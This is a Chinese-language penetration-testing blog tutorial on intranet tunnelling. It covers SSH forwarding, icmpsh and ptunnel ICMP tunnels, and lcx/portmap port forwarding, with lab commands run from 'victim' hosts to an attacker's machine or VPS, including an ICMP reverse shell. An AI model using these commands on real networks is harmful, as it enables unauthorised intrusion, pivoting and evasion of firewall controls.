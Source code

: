 ```yaml
---
layout:     post
title:      内网渗透 常用的隧道代理技术
subtitle:   简单整理一下工具的使用
date:       2020-10-21
author:     BY Diego
header-img: /img/wenzhang/post-bg-格式化.jpgimg/wenzhang/post-代理技术.jpg
catalog: true
tags:
    - 渗透
---
```



### 1. ssh 隧道



#### 本地转发



假设存在 webserver与内网主机可以互通，攻击者可与webserver互通  但攻击者无法访问内网主机，且可以控制webserver 的ssh， 如下



![BC9NB4.png](https://s1.ax1x.com/2020/10/21/BC9NB4.png)





假设 攻击机无法与 192.168.190.128 不通（测试环境是通的 偷懒



`ssh -CfNg -L 本地端口:内网主机地址:目标端口  跳板机用户名@跳板机地址`

192.168.190.128 充当webserver 129充当内网主机

129上的服务如下

![BC9cuD.png](https://s1.ax1x.com/2020/10/21/BC9cuD.png)

`攻击者执行  ssh -CfNg -L 8888:192.168.190.129:80  diego@192.168.190.128`

* -C  压缩传输

* -f ssh后台传输不占用当前shell

* -N 建立连接，但看不到会话

* -g 允许远程主机连接本地用于转发端口

* -L 本地转发

![B9TKu6.png](https://s1.ax1x.com/2020/10/21/B9TKu6.png)



访问本地 8888端口

![BCC8IA.png](https://s1.ax1x.com/2020/10/21/BCC8IA.png)





流量情况 (跳板机抓包分析)

总体流量

![BCPky8.png](https://s1.ax1x.com/2020/10/21/BCPky8.png)



下两图 可以看出 攻击者与webserver 是依靠ssh进行通信，而webserver 与 内网主机是正常通信

![BCPFQf.png](https://s1.ax1x.com/2020/10/21/BCPFQf.png)



![BCPiSP.png](https://s1.ax1x.com/2020/10/21/BCPiSP.png)



#### 远程转发



将本地的端口流量转发到目标的端口上 与本地转发相反

`ssh -CfNg -R 本地端口:内网主机地址:目标端口  跳板机用户名@跳板机地址`



#### 动态转发

`ssh -CfNg -D 8888  跳板机用户名@跳板机地址`

设置socks代理



### 2. ICMP 隧道  

#### icmpsh

受害机 执行如下命令

`icmpsh.exe -t 攻击者ip -d 500 -b 30 -s 128`



![BpStPK.png](https://s1.ax1x.com/2020/10/20/BpStPK.png)



攻击机器

`sysctl -w net.ipv4.icmp_echo_ignore_all = 1`  关闭本地的icmp 以保证shell稳定性

`sudo python icmpsh_m.py  <source IP address> <destination IP address>`

![BpSU2D.png](https://s1.ax1x.com/2020/10/20/BpSU2D.png)



流量情况

![BpSN8O.png](https://s1.ax1x.com/2020/10/20/BpSN8O.png)



#### ptunnel

下载 `wget http://www.cs.uit.no/\~daniels/PingTunnel/PingTunnel-0.72.tar.gz`

解压 `tar -xzvf PingTunnel-0.72.tar.gz`

安装依赖 `sudo apt install libpcap-dev`

安装 `sudo make && sudo make install`



**将内网的服务映射到vps的端口上**

拓扑同 ssh 



内网主机80端口存在如下服务


![BCL1Re.png](https://s1.ax1x.com/2020/10/21/BCL1Re.png)



在web服务上执行如下命令

`ptunnel -x diego`

![BCTpsx.png](https://s1.ax1x.com/2020/10/21/BCTpsx.png)



vps 上执行

`ptunnel -p web服务器ip -lp 映射到本地的端口  -da 内网主机ip -dp  内网服务端口 -x diego`

![BCbeSJ.png](https://s1.ax1x.com/2020/10/21/BCbeSJ.png)



修改火狐的配置 

`network.security.ports.banned.override` 值为对应端口

![BCLYqI.md.png](https://s1.ax1x.com/2020/10/21/BCLYqI.md.png)



访问本地的6000 端口

![BCL3xH.png](https://s1.ax1x.com/2020/10/21/BCL3xH.png)

### 3. lcx 与 portmap 端口转发



下载地址 http://www.vuln.cn/wp-content/uploads/2016/06/lcx_vuln.cn_.zip





#### 本地端口转发



**windows**

绕过防火墙限制某些端口通信，可以转发到其他端口

情景如下 ,服务只绑定在127.0.0.1上 公网ip 无法访问到服务



![BpWNbd.png](https://s1.ax1x.com/2020/10/20/BpWNbd.png)



仅本地可以访问

![BpWaVA.png](https://s1.ax1x.com/2020/10/20/BpWaVA.png)



公网ip 无法访问

![BpWtDH.png](https://s1.ax1x.com/2020/10/20/BpWtDH.png)



执行 `lcx.exe -tran 80 127.0.0.1 8080 ` 将端口转发到80

![BpWYKe.md.png](https://s1.ax1x.com/2020/10/20/BpWYKe.md.png)





连接状态 ： **80绑定在0.0.0.0上** 因此局域网可以访问



![BpfPqH.png](https://s1.ax1x.com/2020/10/20/BpfPqH.png)



![BpWGvD.png](https://s1.ax1x.com/2020/10/20/BpWGvD.png)





**linux 下**



`sudo ./portmap -m 1 -p1 81 -h2 127.0.0.1 -p2 80 `

[![B9RC28.png](https://s1.ax1x.com/2020/10/21/B9RC28.png)](https://imgchr.com/i/B9RC28)

#### 远程端口转发



windows下：

受害机器

`lcx.exe -slave 公网ip  port  127.0.0.1 8080`

vps 上执行 `lcx.exe  -listen port  5555`

访问 vps:5555 即可访问到内网服务





**linux - liunx**：

受害主机

`./portmap -m 3 -h1 vpnip -p1 8007 -h2 127.0.0.1 -p2 80`

![B9sgPO.png](https://s1.ax1x.com/2020/10/21/B9sgPO.png)



自己的vps

`./portmap -m 2 -p1 8007 -h2 vpsip  -p2 8008`

![B9sDq1.png](https://s1.ax1x.com/2020/10/21/B9sDq1.png)



受害内网服务

![B9sya6.png](https://s1.ax1x.com/2020/10/21/B9sya6.png)



被映射到自己vps 8008端口

![B9ssVx.png](https://s1.ax1x.com/2020/10/21/B9ssVx.png)



**linux - windows**

受害着为**windows**时

windows 执行

`lcx.exe -slave 公网ip  port  127.0.0.1 80`

远程执行

`./portmap -m 2 -p1 8007 -h2 vpsip  -p2 8008`



![BPPt5d.md.png](https://s1.ax1x.com/2020/10/21/BPPt5d.md.png)

